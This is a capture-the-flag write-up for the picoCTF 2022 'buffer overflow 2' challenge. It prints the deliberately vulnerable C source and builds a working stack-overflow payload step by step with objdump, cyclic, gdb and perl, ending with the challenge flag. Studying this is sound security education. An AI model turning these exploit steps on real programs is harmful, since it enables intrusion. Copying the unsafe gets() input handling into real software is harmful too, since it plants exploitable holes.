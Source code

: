 ```yaml
---
layout: post
title: picoCTF 2022 - buffer overflow 2
date: "2023-05-03 20:00:31 +0100"
categories: [CTF-WRITEUPS, picoCTF - Binary exploitation]
tags: [c, pwn, binary exploitation, rev, gdb]
---
```


Hello friend,

In this post, we are going to be smashing the stack again, with the third challenge of **picoCTF 2022** , buffer overflow 2.

Link to the challenge : [buffer overflow 2
](https://play.picoctf.org/practice/challenge/259?page=1&search=buffer%20overflow)

## Description

Control the return address and arguments
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/143/vuln)?
You can view source [here](https://artifacts.picoctf.net/c/143/vuln.c). And connect with it using nc saturn.picoctf.net <span style="color : red">[PORT]</span>

## Solution

<span style="color : red">vuln.c</span>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

#### Analyzing the program

Okey let's analyze the `vuln.c` program.

First, `main()` gets called, then we get asked for our input, then `vuln()` is called.

inside `vuln()` , a BUFFER is declared with a size of 100 bytes, and `gets()` is used to read from the standard input and stores that into the buffer.

This is the vulnerable part, since the program trusts the user input, we can exceed the buffer size and write into memory.

The idea here is to `JUMP` to the `win()` function.

In order to do so, we need to :

- Determine the exact number of bytes (offset) to overwrite the return address.
- Determine the address of the `win()` function.

#### Smashing the stack

Determining the address of `win` is fairly easy, here is how I've done it:

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ objdump -t ./vuln | grep win
08049296 g     F .text  000000a2              win
```

> Address : 0x08049296

This prints the symbol table of our program. Using grep allows us to only display the line that contains a pattern, in our case `win`.

Now we need to determine how many bytes we need to overwrite the return address in the stack.

Here is a simple illustration explaining the idea

<img src="/../assets/picoCTF_bufferoverflow2.png" />

Now if we control the return address, we can basically control the whole program and redirect it to wherever we want.

To determine how many bytes we need, we can generate a pattern using `cyclic` , feed it to the program and analyze it using `gdb`

let's generate a pattern of 120 bytes

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cyclic 120
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
```

Now let's open our binary in gdb, feeding it that input.

<img src="/../assets/picoCTF_bufferoverflow2.1.png" />

We are interested in the `EIP` register, since `EIP` points to the instruction that the CPU is going to execute.

As you can notice, EIP points to `daab`, which is a substring in our pattern, now we can easily determine the offset.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cyclic -l daab
112
```

We got it ! Now we need exactly 112 bytes to hit the `EIP`.

Let's create a flag.txt file in our home directory in order to test the program.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cat flag.txt
FLAG{yariss}
```

Now let's feed the program 112 chars + the address of `win`. I'm going to use `perl` for that.

> Note : we need to write the address in reverse, respecting the little endian byte order.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ perl -e 'print "A" x 112 . "\x96\x92\x04\x08" ' > payload
```

Now let's run it with gdb, make a breakpoint in the win function, and see if we hit it.

```bash
gdb ./vuln
b win
run < payload
```

We hit it !

Now that we can successfully jump to win, we need to somehow bypass the checks in order to print the flag.

```c
void win(unsigned int arg1, unsigned int arg2)
....
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

But how ? how can we set the arguments ?

Basically, when a function is called, here is what happens :

- the arguments of that function are pushed onto the stack
- the return address is pushed onto the stack
- a stack frame for the function is created

Now we need to craft the same stack structure, this way when we jump to our function, its arguments are those we've put into our crafted stack.

<img src="/../assets/picoCTF_bufferoverflow2.2.png" />

> Note : Don't forget to write the addresses / values in reverse order , respecting little endian format.

Putting all of this together, here is our final payload

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ perl -e 'print "A" x 112 . "\x96\x92\x04\x08" . "JUNK". "\x0d\xf0\xfe\xca" ."\x0d\xf0\x0d\xf0" . "\n" ' > payload
```

Let's run it.

```bash
└─$ cat payload | ./vuln
Please enter your string:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�JUNK
FLAG{yariss}
```

We got it, now let's run it against the program in the server.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/picoCTF/buffer_overflow2]
└─$ cat payload | nc saturn.picoctf.net
picoCTF{argum3nt5_4_d4yZ_2a8ec317}
```
